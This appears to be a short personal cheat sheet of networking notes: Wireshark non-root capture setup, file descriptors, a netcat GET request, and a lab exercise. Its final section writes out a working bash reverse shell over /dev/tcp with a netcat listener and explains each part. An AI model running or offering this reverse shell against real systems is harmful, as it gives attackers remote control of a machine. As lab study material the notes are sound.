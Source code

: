 # Wireshark

Capture as non-root:

    sudo usermod -a -G wireshark <username>
    sudo chmod 750 /usr/bin/dumpcap
    sudo setcap cap_net_raw,cap_net_admin+eip /usr/bin/dumpcap
    # logout

# File Descriptors

Pointers to the sources of data that the programs are using.

0   stdin   Standard Input
1   stdout  Standard Output
2   stderr  Standard Error

# Send a basic GET request to the application on server port

        cat <(echo "GET \file.txt HTTP/1.0" && echo) - | nc 1.1.1.1 2222 -vv

# Reverse shell: /bin/bash -> /dev/tcp

Roger home: [l]isten to a [p]ort with [v]erbose output from [nc] netcat

        nc -v -l -p 666
            
Alien ship : execute it in a terminal of a virtual machine on host only adapter

        /bin/bash -i >& /dev/tcp/[roger-ip]/[roger-port] 0>&1 &

1. Execute bash in [i]nteractive session : /bin/bash -i
2. Send bash output : >&
3. Interact directly with the TCP protocol : /dev/tcp/ip/port/
4. Send bash stdin -> stdout : 0>&1  * Resend to Roger what he is typing
5. All in background : &
